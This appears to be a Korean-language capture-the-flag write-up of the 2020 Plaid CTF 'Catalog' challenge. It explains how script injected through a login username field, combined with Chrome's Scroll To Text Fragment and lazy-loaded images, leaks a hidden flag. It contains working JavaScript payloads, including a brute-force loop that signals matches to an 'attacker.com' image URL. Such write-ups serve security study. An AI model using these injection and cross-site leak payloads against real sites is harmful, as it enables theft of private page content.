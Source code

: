 ```yaml
---
layout: post
title:  "2020 Plaid CTF - Catalog"
author: "iwkang@raoncorp.com"
comments: true
tags: [ctf, write-up]
---
```


라온화이트햇 핵심연구팀 강인욱

2020 Plaid CTF에 출제된 문제중 0 솔버였던 흥미로운 문제이다.

문제 출제자 : [https://twitter.com/thebluepichu](https://twitter.com/thebluepichu)

이 문제에 처음 접속 하면 아래와 같이 회원가입, 로그인, 로그아웃 글 작성을 하는 기능이 있으며, 로그인시 관련된 정보(BAM! ~~~~)가 상단에 출력된다.

![/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png](/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png)

CSP를 확인해보면 아래와 같다.

```jsx
Content-Security-Policy: default-src 'nonce-xxxxx'; img-src *; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/
```

nonce가 활성화되어 있으며 스크립트를 삽입하더라도 코드 실행을 할 수 없습니다. 한가지 주목할 점은 img 태그의 경로를 외부 링크로 설정할 수 있다는 점이다.

문제의 목적은 문제 출제자가 작성한 id=3의 게시글에서 플래그를 가져와야 한다. 플래그 포맷은 다음과 같다.

```jsx
Flag format : /^PCTF\{[A-Z0-9_]+\}$/ 
```

플래그 포맷을 주었다는 점에서 어떠한 작업을 이용해 브루트 포싱으로 플래그를 "검색"해서 읽어야 한다는 것을 알 수 있다.

공격 시나리오를 예상해보면 다음과 같다.

1. 글을 작성하여 봇이 글을 읽게한다.
2. id=3 게시글에 접근하여 어떠한 방법을 통해 이미지 지연 로딩(loading=lazy)을 활용하여 플래그를 유추한다.

대회 당시에는 "어떠한 방법"을 찾을 수 없었지만 Chrome 80 부터 Scroll To Text Fragment가 가능하다고 한다.

[https://www.chromestatus.com/feature/4733392803332096](https://www.chromestatus.com/feature/4733392803332096)

Scroll To Text Fragment은 아래와 같이 사용 가능하다. 이 기능을 이용하기 위해선 사용자 제스처(탭, 클릭)가 필요하다. 출제자는 uBlock Origin 플러그인이 활성화되어 있을 경우를 가정했다.

 

STTF 보안 이슈

```jsx
https://docs.google.com/document/d/1YHcl1-vE_ZnZ0kL2almeikAj2gkwCq8_5xwIae7PVik/edit#heading=h.uoiwg23pt0tx
```

사용법

```jsx
https://en.wikipedia.org/wiki/Cat#:~:text=On
```

이 기능을 사용하면 문서 내용중 "On"이라는 글자가 있는 곳으로 스크롤 된다. 

그렇다면, 이 기능을 사용하여 플래그를 읽으려면 id=3 게시물에 스크립트가 삽입이 되어야한다.

스크립트 삽입은 로그인시 상단에 표시되는 아이디로 가능합니다. 로그인을 실패해도 상단에 메세지가 뜨기 때문에 스크립트 삽입이 가능해진다.

![/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png](/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png)

아래와 같이 유저이름에 스크립트를 삽입한 후 id=3로 이동시키면 상단에 스크립트가 삽입된다.

```jsx
<script>
fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent("<myscript>test code</myscript>")+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3";
});
</script>
```

이제 단서들을 모아서 공격 시나리오를 재구성 하면 아래와 같다.

1. 관리자가 ublock origin 플러그인을 사용중인 상태에서 게시글을 클릭한다.
2. meta tag를 이용해 attacker.com으로 이동 시킨다.
3. attacker.com에서 로그인 요청을 발생시켜 id=3 게시물 상단에 스크립트를 삽입한다.
4. 스크립트로 meta tag를 이용해 Scroll To Text Fragment를 발생시킨다.
5. 이미지 지연 로딩(```<img src="http://attacker.com/img" loading="lazy">```)을 이용해 플래그가 검색될 경우 attacker.com의 이미지를 로드하도록 한다.
6. 이미지가 로딩되면 검색이 되었다는 뜻이고 로딩이 안되면 검색이 안되었다는 뜻이다.

예시 코드

```jsx
<script>

alphabet = `}0123456789ABDEFGHIJKLMNOPQRSTUVWXYZ_`;
payload  = "";

content = "~~~~~~<h1></h1>".repeat(500)+"<img src="http://attacker.com/img" loading="lazy" />~~~~~";

for (let letter of alphabet) {
    payload += `text=T-,F,{,-${letter}%26`;
}
payload = "#:~:" + payload.substring(0, payload.length - 3);

fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent(content)+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3#:~:"+payload;
});
</script>
```